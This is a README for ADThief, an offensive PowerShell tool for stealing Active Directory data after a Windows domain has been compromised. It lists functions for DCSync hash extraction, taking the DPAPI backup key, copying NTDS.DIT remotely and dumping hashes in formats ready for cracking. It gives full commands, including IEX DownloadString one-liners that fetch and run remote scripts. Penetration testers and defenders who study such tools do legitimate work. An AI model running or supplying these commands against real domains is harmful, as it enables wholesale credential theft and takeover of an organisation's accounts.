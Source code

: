 # ADThief

ADThief is a PowerShell tool to exploit Active Directory database after compromising a Windows domain.

## Functions

```
Invoke-DCSync                   -   extracts domain accounts from Active Directory domain controller, including password hashes
Invoke-DirSync                  -   extracts confidential and RODC filtered attributes from Active Directory domain controller
Get-DpapiBackupKey              -   extracts the DPAPI backup key from Active Directory domain controller
Get-ADDatabase                  -   steals Active Directory database remotely
Dump-ADDatabase                 -   dumps domain accounts from an offline Active Directory database, including password hashes
Mount-ADDatabase                -   mounts an Active Directory database as a local LDAP server
Get-LdapObject                  -   searchs for domain objects in a mounted Active Directory database
```

## Requirements

The functions `Invoke-DCSync`, `Get-DpapiBackupKey`, `Invoke-DirSync` and `Get-ADDatabase` require a privileged access to Active Directory, typically domain admin rights.
The functions `Dump-ADDatabase` and `Mount-ADDatabase` require admin rights on the local computer.

The functions `Invoke-DCSync`, `Get-DpapiBackupKey` and `Dump-ADDatabase` must be launched on a computer with DSInternals PowerShell module installed. The output of these functions can be formatted using custom views provided by the DSInternals module to support different password cracking tools. The Utils.ps1 file contains a function `Add-DSAccountCustomViews` to add optional views 'SecretsDump' and 'SecretsDumpHistory'.

```
PS C:\> Install-Module DSInternals -Scope CurrentUser
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/Utils.ps1')
PS C:\> Add-DSAccountCustomViews
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/ADThief.ps1')
PS C:\> Invoke-DCSync -Server DC.ADATUM.CORP -Credential ADATUM\Administrator | Format-Custom -View SecretsDump
```

The function `Mount-ADDatabase` must be launched on a computer with AD LDS installed. Please make sure to back up the NTDS.DIT file before using the option 'AllowUpgrade'. 

```
PS C:\> Enable-WindowsOptionalFeature -FeatureName "DirectoryServices-ADAM-Client" -Online
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/ADThief.ps1')
PS C:\> Get-ADDatabase -Server DC.ADATUM.CORP -Credential ADATUM\Administrator
PS C:\> Dump-ADDatabase | Format-Custom -View HashcatNT | Out-File -Encoding ascii ADATUM.hashes
PS C:\> Mount-ADDatabase -AllowUpgrade -LdapPort 1389
PS C:\> Get-LdapObject -Server localhost:1389 -SearchBase "dc=adatum,dc=corp" -Filter "(&(userAccountControl:1.2.840.113556.1.4.803:=65536)(!userAccountControl:1.2.840.113556.1.4.803:=2))" -Properties sAMAccountName,servicePrincipalName
PS C:\> Umount-ADDatabase
```

## Credits

* https://blog.netspi.com/getting-started-wmi-weaponization-part-4/
* https://github.com/MichaelGrafnetter/DSInternals
* https://simondotsh.com/infosec/2022/07/11/dirsync.html
